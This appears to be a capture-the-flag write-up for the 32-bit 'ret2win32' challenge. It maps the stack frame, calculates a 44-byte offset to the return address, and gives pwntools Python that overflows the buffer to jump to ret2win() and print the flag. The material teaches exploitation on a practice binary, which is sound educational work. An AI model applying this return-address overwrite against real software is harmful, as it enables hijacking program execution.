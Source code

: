 ## Stack Layout Analysis

### Memory Layout
```
High Memory
┌─────────────────┐
│  Return Address │ ← [ebp+4] (TARGET)
├─────────────────┤
│   Saved EBP     │ ← [ebp] (4 bytes)
├─────────────────┤
│   Padding       │ ← [ebp-8] to [ebp-1] (8 bytes)
├─────────────────┤
│                 │
│   Buffer        │ ← [ebp-40] to [ebp-9] (32 bytes)
│   (32 bytes)    │
│                 │
└─────────────────┘
Low Memory
```

### Offset Calculation
- **Buffer size**: 32 bytes
- **Padding**: 8 bytes (for alignment)
- **Saved EBP**: 4 bytes
- **Total offset to return address**: 32 + 8 + 4 = **44 bytes**

## Exploitation Strategy

### Step 1: Identify the Target
- We need to redirect execution to `ret2win()` function
- Address: `0x0804862c`

### Step 2: Calculate Overflow Offset
- Buffer overflow allows us to overwrite return address
- Offset: 44 bytes to reach return address

### Step 3: Craft Payload
```python
offset = 44
ret2win_addr = 0x0804862c
payload = b'A' * offset + p32(ret2win_addr)
```

### Step 4: Execute Exploit
```python
p = process('./ret2win32')
p.sendlineafter(b'> ', payload)
flag = p.recvall().decode()
print(flag)
```
